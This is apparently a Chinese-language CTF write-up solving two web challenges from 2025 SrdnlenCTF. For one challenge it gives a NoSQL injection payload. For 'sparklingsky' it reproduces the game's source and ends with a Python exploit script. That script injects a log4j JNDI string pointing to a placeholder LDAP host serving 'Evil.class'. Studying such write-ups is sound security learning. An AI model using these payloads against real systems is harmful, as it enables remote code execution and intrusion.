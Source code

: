 # 2025-SrdnlenCTF

  
  
&lt;!--more--&gt;  
## SPEED  
在`/redeem`存在`nosql`注入，  
`payload: ?discountCode[$ne]=null`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501202156035.png)
并且存在并发，利用领取到金币，即可购买`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501202158036.png)
购买`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501202159695.png)
## sparklingsky  
利用`websocket`实现了一个小游戏  
```java  
from flask_socketio import emit  
from flask_login import current_user, login_required  
from threading import Lock  
from .models import *  
from anticheat import log_action, analyze_movement  
lock = Lock()  
  
def init_socket_events(socketio, players):  
    @socketio.on(&#39;connect&#39;)  
    @login_required  
    def handle_connect():  
        user_id = int(current_user.get_id())  
        log_action(user_id, &#34;is connecting&#34;)  
          
        if user_id in players.keys():  
            # Player already exists, send their current position  
            emit(&#39;connected&#39;, {&#39;user_id&#39;: user_id, &#39;x&#39;: players[user_id][&#39;x&#39;], &#39;y&#39;: players[user_id][&#39;y&#39;], &#39;angle&#39;: players[user_id][&#39;angle&#39;]})  
        else:  
            # TODO: Check if the lobby is full and add the player to the queue  
            log_action(user_id, f&#34;is spectating&#34;)  
        emit(&#39;update_bird_positions&#39;, players, broadcast=True)  
  
    @socketio.on(&#39;move_bird&#39;)  
    @login_required  
    def handle_bird_movement(data):  
        user_id = data.get(&#39;user_id&#39;)  
        log_action(user_id, &#34;is active&#34;)          
        if user_id in players:  
            del data[&#39;user_id&#39;]  
            if players[user_id] != data:  
                with lock:  
                    players[user_id] = {  
                        &#39;x&#39;: data[&#39;x&#39;],  
                        &#39;y&#39;: data[&#39;y&#39;],  
                        &#39;color&#39;: &#39;black&#39;,  
                        &#39;angle&#39;: data.get(&#39;angle&#39;, 0)  
                    }  
                    log_action(user_id, &#34;is success&#34;)  
                    if analyze_movement(user_id, data[&#39;x&#39;], data[&#39;y&#39;], data.get(&#39;angle&#39;, 0)):  
                        log_action(user_id, f&#34;was cheating with final position ({data[&#39;x&#39;]}, {data[&#39;y&#39;]}) and final angle: {data[&#39;angle&#39;]}&#34;)  
                        # del players[user_id] # Remove the player from the game - we are in beta so idc  
                    emit(&#39;update_bird_positions&#39;, players, broadcast=True)  
  
    @socketio.on(&#39;disconnect&#39;)  
    @login_required  
    def handle_disconnect(data):  
        user_id = current_user.get_id()  
        if user_id in players:  
            del players[user_id]  
        emit(&#39;update_bird_positions&#39;, players, broadcast=True)  
```  
在**超速**的情况下，会被日志记录  
`log_action(user_id, f&#34;was cheating with final position ({data[&#39;x&#39;]}, {data[&#39;y&#39;]}) and final angle: {data[&#39;angle&#39;]}&#34;)`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501202231582.png)
日志记录利用了存在漏洞的`log4j`，并且启动时还设置了`trustURLCodebase=true`  
直接打 JNDI 即可，  
**超速**要求  
```java  
user_states = {}  
  
# Anti-cheat thresholds  
MAX_SPEED = 1000  # Max units per second  
  
def analyze_movement(user_id, new_x, new_y, new_angle):  
  
    global user_states  
  
    # Initialize user state if not present  
    if user_id not in user_states:  
        user_states[user_id] = {  
            &#39;last_x&#39;: new_x,  
            &#39;last_y&#39;: new_y,  
            &#39;last_time&#39;: time.time(),  
            &#39;violations&#39;: 0,  
        }  
  
    user_state = user_states[user_id]  
    last_x = user_state[&#39;last_x&#39;]  
    last_y = user_state[&#39;last_y&#39;]  
    last_time = user_state[&#39;last_time&#39;]  
  
    # Calculate distance and time elapsed  
    distance = math.sqrt((new_x - last_x)**2 &#43; (new_y - last_y)**2)  
    time_elapsed = time.time() - last_time  
    speed = distance / time_elapsed if time_elapsed &gt; 0 else 0  
  
    # Check for speed violations  
    if speed &gt; MAX_SPEED:  
        return True  
  
    # Update the user state  
    user_states[user_id].update({  
        &#39;last_x&#39;: new_x,  
        &#39;last_y&#39;: new_y,  
        &#39;last_time&#39;: time.time(),  
    })  
  
    return False  
```  
利用此项目  
https://github.com/X1r0z/JNDIMap  
构造`exp`  
```java  
import socketio  
sio = socketio.Client()  
@sio.event  
def connect():  
    print(&#39;Connected to the server&#39;)  
  
@sio.event  
def connected(data):  
    print(&#39;Server says:&#39;, data)  
  
@sio.event  
def update_bird_positions(players):  
    print(&#39;Updated bird positions:&#39;, players)  
  
@sio.event  
def disconnect():  
    print(&#39;Disconnected from the server&#39;)  
  
# 发送消息到服务器  
def send_move_bird(user_id, x, y, angle):  
    sio.emit(&#39;move_bird&#39;, {&#39;user_id&#39;: user_id, &#39;x&#39;: x, &#39;y&#39;: y, &#39;angle&#39;: angle})  
1  
# 连接到服务器  
def main():  
    headers={  
        &#34;Cookie&#34;:&#34;session=.eJwlzjEOwzAIAMC_MHcAu4DJZyJsQO2aNFPVv7dS51vuDXsdeT5gex1X3mB_BmzgU31QDEnuhMZTiHWwpLHEmuxuPTTUWzjr7GKqrRFOk1LXVRkWrZeqFzahKYMckc1_xEiZLLxyWCtRJHbtVkiyEF1W3OEXuc48_hsi-HwB1JYvGQ.Z40fRA.RAjyNPzzmC-a4dPG6ww7MztPteU&#34;  
    }  
    sio.connect(&#39;http://sparklingsky.challs.srdnlen.it:8081/&#39;,headers=headers)    
    while True:  
        send_move_bird(user_id=1, x=0, y=0, angle=90)  
        send_move_bird(user_id=1, x=10000, y=100000000, angle=&#34;${jndi:ldap://ip:port/Basic/FromFile/Evil.class}&#34;)  
    sio.wait()  
if __name__ == &#34;__main__&#34;:  
    main()  
```  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/2025-srdnlenctf/  

